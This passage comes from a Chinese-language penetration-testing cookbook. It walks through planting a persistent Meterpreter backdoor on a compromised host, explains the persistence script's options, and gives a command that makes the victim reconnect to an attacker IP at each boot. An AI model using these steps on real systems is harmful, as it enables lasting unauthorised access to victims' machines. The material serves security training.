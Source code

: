 *   内部网络或互联网的连接。

*   使用 Metasploit 框架的具有漏洞的主机。

### 操作步骤

让我们开始植入我们的永久后门。你需要使用 Metasploit 攻击某个主机来获得 Meterpreter shell。你可以使用第六章的秘籍之一，来通过 Metasploit 获得目标主机的访问。

1.  一旦你通过 Metasploit 和 Meterpreter shell 获得了受害者的访问权限，等待你的 Meterpreter 显示提示符。

    ![](../img/3631110c88879b2826b545be617e51bc.png)

2.  下面，我们需要运行 persistence，以便创建我们的后门。我们打开帮助文件：

    ```
    run persistence –h 
    ```

3.  永久后门有几个选项，包括：

    *   `-A`：这个选项会自动启动一个匹配的多重处理器来链接到代理端。

    *   `-S`：这个选项让后门自动化启动为系统服务。

    *   `-U`：这个选项让后门在用户启动系统时自动启动。

    *   `-i`：这个选项设置两次尝试回复攻击者机器之间的秒数。

    *   `-p`：这个选项设置攻击者机器上 Metasploit 的监听端口。

    *   `-P`：这个选项设置所用的载荷。默认使用`Reverse_tcp`，并且它通常是你想使用的东西。

    *   `-r`：这个选项设置攻击者机器的 IP 地址。

4.  现在，我们执行命令来建立后门：

    ```
    run persistence –U –A –i 10 – 8090 –r 192.168.10.109
    ```

5.  后门现在已经建立了。如果成功的话，你会注意到你有了第二个 Meterpreter 会话。

    ![](../img/87cf273fd1c6ee542861932bda03fe50.png)

### 工作原理

这个秘籍中，我们使用 Meterpreter 来建立永久后门。我们在黑进目标主机并获得 Meterpreter shell 之后开始了这个秘籍。之后我们通过浏览帮助文档那个，探索了一些可用的永久化方式。最后，我们通过运行安装命令并设置它的选项来完成后门的安装。

## 7.7 中间人（MITM）攻击
